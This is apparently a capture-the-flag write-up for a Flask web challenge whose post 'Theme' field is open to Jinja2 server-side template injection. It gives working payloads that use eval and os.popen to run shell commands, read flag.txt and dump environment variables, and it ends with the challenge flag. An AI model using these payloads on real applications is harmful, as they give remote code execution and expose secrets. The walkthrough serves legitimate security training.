 # CTF Challenge: mola7ada



## Challenge Description

Mo7adata is the next multibillion-dollar project built by molZri3, as always. He said it's super secure, and even he can't break it to get the flag. Do you think the same? 

---

## Challenge Setup
- **Application**: A Flask web application with user authentication, post creation, and profile viewing.
- **Vulnerability**: The `Theme` field in the post creation form is vulnerable to SSTI.
- **Flag**: The flag is stored in a file named `flag.txt` in the root directory of the application.

---

## Vulnerability Details
The vulnerability exists in the `Theme` field of the post creation form. When a user creates a post, the `Theme` field is rendered unsafely in the profile page using Jinja2 templating. This allows attackers to inject malicious Jinja2 templates and execute arbitrary code on the server.

For example, the following payload can be used to perform a simple calculation:
```jinja2
{{ 7 * 7 }}
This will render as 49 in the profile page, confirming the SSTI vulnerability.

Exploitation Steps
Create a Post:

Go to the post creation page (/posting).

Enter a Title and Content.

In the Theme field, enter a malicious payload to exploit the SSTI vulnerability.

Exploit SSTI:

Use the following payload to read the contents of flag.txt:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').popen('cat /path/to/flag.txt').read()") }}
Replace /path/to/flag.txt with the actual path to the flag.txt file.

View the Profile:

Go to the profile page (/users/<user_id>).

The Theme field will display the contents of flag.txt.

Example Payloads
Simple SSTI Test:

jinja2
Copy
{{ 7 * 7 }}
Output: 49

Read Environment Variables:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').environ") }}
Output: A dictionary of environment variables.

Read flag.txt:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').popen('cat ./flag.txt').read()") }}
Output: The contents of flag.txt.
```


## FLAG 

NHD{khoya_7na_mzrobin_3tih_flag_a_rabi3a}
